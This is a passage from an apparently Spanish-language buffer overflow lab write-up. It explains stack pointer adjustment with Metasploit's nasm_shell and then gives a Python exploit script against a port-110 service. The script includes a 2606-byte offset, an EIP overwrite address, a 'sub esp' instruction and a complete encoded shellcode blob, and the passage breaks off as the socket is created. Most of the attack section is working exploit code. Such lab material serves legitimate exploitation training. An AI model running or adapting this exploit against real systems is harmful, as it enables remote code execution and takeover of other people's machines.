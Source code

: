     En resumen, el decremento del valor del puntero de pila permite al atacante manipular el flujo de ejecución del programa para dirigirlo al código malicioso (shellcode) inyectado en el búfer. Esta técnica es una parte fundamental de la explotación de desbordamiento de búfer y se utiliza para tomar el control del programa víctima y ejecutar código arbitrario.
    

Para hacer un desplazamiento de pila primero se utilizará una instrucción que desplazará el registro ESP 16 bytes atrás en la pila, para esto se utilizará la herramienta nasm de metasploit para obtener la instrucción que luego será insertada en el script:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

# En en el nsm ingresar: sub esp,0x10
```

![Untitled](../assets/Buffer-Overflow/Lab1/Usar-NOPs-RCE/Untitled 1.png)

Ahora esta instrucción deberá ser insertada en el payload antes del shellcode:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xbf\x77\x7d\x85\xae\xd9\xcb\xd9\x74\x24\xf4\x5a\x31\xc9"
b"\xb1\x52\x31\x7a\x12\x03\x7a\x12\x83\xb5\x79\x67\x5b\xc5"
b"\x6a\xe5\xa4\x35\x6b\x8a\x2d\xd0\x5a\x8a\x4a\x91\xcd\x3a"
b"\x18\xf7\xe1\xb1\x4c\xe3\x72\xb7\x58\x04\x32\x72\xbf\x2b"
b"\xc3\x2f\x83\x2a\x47\x32\xd0\x8c\x76\xfd\x25\xcd\xbf\xe0"
b"\xc4\x9f\x68\x6e\x7a\x0f\x1c\x3a\x47\xa4\x6e\xaa\xcf\x59"
b"\x26\xcd\xfe\xcc\x3c\x94\x20\xef\x91\xac\x68\xf7\xf6\x89"
b"\x23\x8c\xcd\x66\xb2\x44\x1c\x86\x19\xa9\x90\x75\x63\xee"
b"\x17\x66\x16\x06\x64\x1b\x21\xdd\x16\xc7\xa4\xc5\xb1\x8c"
b"\x1f\x21\x43\x40\xf9\xa2\x4f\x2d\x8d\xec\x53\xb0\x42\x87"
b"\x68\x39\x65\x47\xf9\x79\x42\x43\xa1\xda\xeb\xd2\x0f\x8c"
b"\x14\x04\xf0\x71\xb1\x4f\x1d\x65\xc8\x12\x4a\x4a\xe1\xac"
b"\x8a\xc4\x72\xdf\xb8\x4b\x29\x77\xf1\x04\xf7\x80\xf6\x3e"
b"\x4f\x1e\x09\xc1\xb0\x37\xce\x95\xe0\x2f\xe7\x95\x6a\xaf"
b"\x08\x40\x3c\xff\xa6\x3b\xfd\xaf\x06\xec\x95\xa5\x88\xd3"
b"\x86\xc6\x42\x7c\x2c\x3d\x05\x43\x19\x3d\xb1\x2b\x58\x3d"
b"\x38\x17\xd5\xdb\x50\x77\xb0\x74\xcd\xee\x99\x0e\x6c\xee"
b"\x37\x6b\xae\x64\xb4\x8c\x61\x8d\xb1\x9e\x16\x7d\x8c\xfc"
b"\xb1\x82\x3a\x68\x5d\x10\xa1\x68\x28\x09\x7e\x3f\x7d\xff"
b"\x77\xd5\x93\xa6\x21\xcb\x69\x3e\x09\x4f\xb6\x83\x94\x4e"
b"\x3b\xbf\xb2\x40\x85\x40\xff\x34\x59\x17\xa9\xe2\x1f\xc1"
b"\x1b\x5c\xf6\xbe\xf5\x08\x8f\x8c\xc5\x4e\x90\xd8\xb3\xae"
b"\x21\xb5\x85\xd1\x8e\x51\x02\xaa\xf2\xc1\xed\x61\xb7\xe2"
b"\x0f\xa3\xc2\x8a\x89\x26\x6f\xd7\x29\x9d\xac\xee\xa9\x17"
b"\x4d\x15\xb1\x52\x48\x51\x75\x8f\x20\xca\x10\xaf\x97\xeb"
b"\x30")

payload = before_eip + eip + b"\x83\xEC\x10" + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

```